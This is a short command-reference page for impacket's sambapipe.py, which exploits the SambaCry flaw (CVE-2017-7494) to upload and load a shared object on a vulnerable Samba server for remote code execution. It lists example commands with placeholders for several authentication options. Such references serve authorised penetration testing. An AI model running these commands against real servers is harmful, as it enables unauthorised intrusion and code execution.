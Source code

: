 # sambapipe.py

> Exploit CVE-2017-7494 (SambaCry) to upload and load a shared object (SO) file on a vulnerable Samba server for remote code execution. More information: <https://github.com/fortra/impacket>.

## Examples

### Upload and load a shared object file on a vulnerable Samba server

```bash
sambaPipe.py -so path/to/file.so domain/username:password@target
```

### Authenticate using NTLM hashes instead of a password

```bash
sambaPipe.py -so path/to/file.so -hashes LM_HASH:NT_HASH domain/username:password@target
```

### Use Kerberos authentication for the target

```bash
sambaPipe.py -so path/to/file.so -k -no-pass domain/username:password@target
```

### Specify a domain controller IP for authentication

```bash
sambaPipe.py -so path/to/file.so -dc-ip dc_ip domain/username:password@target
```

### Use a custom port for the SMB connection

```bash
sambaPipe.py -so path/to/file.so -port port domain/username:password@target
```
